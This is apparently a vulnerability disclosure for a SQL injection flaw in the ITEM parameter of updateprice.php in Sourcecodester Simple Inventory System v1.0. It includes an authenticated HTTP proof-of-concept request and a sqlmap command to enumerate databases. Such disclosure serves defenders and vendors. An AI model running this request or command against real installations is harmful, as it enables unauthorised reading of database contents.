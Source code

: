 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：updateprice.php

injection parameter:$_POST['ITEM']

#### 1.Vulnerability analysis

As shown in the figure below, in updateprice.php, after the ITEM parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through Boolean injection.

![image-20240517161051373](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System Sql Inject-2.assets/image-20240517161051373.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /updateprice.php HTTP/1.1
Host: 10.15.6.184:82
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://10.15.6.184:82
Connection: close
Referer: http://10.15.6.184:82/tableedit.php
Cookie: PHPSESSID=b3e8bialebcp70drgpo4ojapp1
Upgrade-Insecure-Requests: 1

ITEM=1&itemprice=123
```

python salmap.py -r 1.txt --batch --dbs

![image-20240517160753953](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System Sql Inject-2.assets/image-20240517160753953.png)

